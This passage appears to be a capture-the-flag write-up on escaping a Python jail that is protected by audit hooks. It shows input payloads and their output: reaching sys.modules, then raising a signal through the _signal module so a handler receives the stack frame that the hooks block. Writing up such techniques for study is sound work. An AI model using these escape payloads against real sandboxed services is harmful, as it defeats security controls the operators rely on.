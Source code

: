 meaning it triggers when we open a file that is going to be used as a library... But what if **it is already loaded !** Like in our jail with ``from sys import addaudithook`` and ``from os import _exit`` !

```python
Math expression: __import__('sys')

# Output
<module 'sys' (built-in)>
```
```python
Math expression: __import__('sys').modules.keys()

# Output
dict_keys(['sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', 'winreg', '_io', 'marshal', 'nt', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', 'encodings.cp1252', '_signal', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', '_winapi', 'ntpath', 'os.path', 'os', '_sitebuiltins', '_distutils_hack', 'site'])
```

Wow 🤩 That's a lot of modules to work with ! Most are out of audithooks' events too 😈
If we ignore the Windows modules (no I won't apology for that) we can search in each frozen modules for gold.
I will spoil it, ``_signal`` is where gold is hidden. There is some good stuff in ``_frozen_importlib`` and ``_imp`` too but when they go to read a file they execute ``os.listdir``, raising an event 😭 You can also tinker with *debug traces*, ``_thread`` and other *builtin modules* (loadable with ``_frozen_importlib``) but in my testing I didn't achieve anything substantial (*skill issue* 🙄)

### Signaling we escaped 😎
Audithooks block ``sys._current_frames``, ``sys._getframe`` and ``sys._getframemodulename`` to protect the code from being tampered with. We can't call this functions but what if the ``frame`` object came to us directly 😇 ?
For that we are going to use [signals](https://docs.python.org/3/library/signal.html).  We can create a signal using ``signal.signal(signalnum, handler)`` ([ref](https://docs.python.org/3/library/signal.html#signal.signal))
> *signalnum* : the signal number 🆗
> 
> The _handler_ is called with two arguments: the **signal number** and the **current stack frame** 🤑

```python
signal.signal(2, lambda n,f:print(f))
```

To launch our trojan signal we just need to raise it using ``raise_signal(signalnum)``

```python
(s:=__import__('sys').modules['_signal']),s.signal(2,lambda n,f:print(f)),s.raise_signal(2)

# Output
<frame at 0x000001F3EA9A8E00, file '<code>', line 1, code <module>>
(<module '_signal' (built-in)>, <built-in function default_int_handler>, None)

# dir(f)
['__class__', '__delattr__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__getstate__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', 
'__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'clear', 'f_back', 'f_builtins', 'f_code', 'f_globals', 'f_lasti', 'f_lineno', 'f_locals', 'f_trace', 'f_trace_lines', 'f_trace_opcodes']

# f_locals
```